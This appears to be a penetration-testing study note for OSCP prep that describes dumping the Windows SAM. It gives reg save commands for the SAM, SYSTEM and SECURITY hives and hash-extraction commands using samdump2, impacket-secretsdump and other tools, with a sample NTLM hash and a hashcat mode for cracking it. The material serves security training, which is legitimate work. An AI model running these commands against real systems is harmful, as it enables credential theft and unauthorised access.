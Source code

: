 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/i-windows-privilege-escalation/10-dumping-sam/","updated":"2024-01-05T11:35:12.996+01:00"}
---
```


The easiest way to steal the Security Account Manager (SAM) files is to get a copy from the registry:
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
**Download** those files to your Kali machine and **extract the hashes** using:
```
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```
Results in hashes like this:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f518eb35353d7a83d27e7fe457664e5:::
```
- The string starting with "8f518" is the NTLM hash which can be cracked using hashcat -m 1000

Alternatives:
```
.\secretsdump_windows.exe -sam C:\windows\system32\config\SAM -system C:\windows\system32\config\SYSTEM LOCAL

fgdump

pypykatz
```

Credit: https://book.hacktricks.xyz/windows-hardening/stealing-credentials